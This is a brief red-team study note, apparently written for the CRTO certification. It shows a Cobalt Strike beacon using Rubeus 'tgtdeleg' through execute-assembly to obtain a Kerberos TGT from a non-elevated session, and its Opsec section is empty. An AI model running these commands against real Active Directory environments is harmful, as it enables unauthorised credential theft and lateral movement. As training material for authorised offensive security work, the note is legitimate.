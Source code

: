
Using TGT delegation method (non elevated session):

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap
```

Here you will obtain a TGT ticket of your current session.


### ⚠ Opsec




### Properties
---
📆 created   {{19-02-2024}} 10:25
🏷️ tags: #redteam #crto 

---

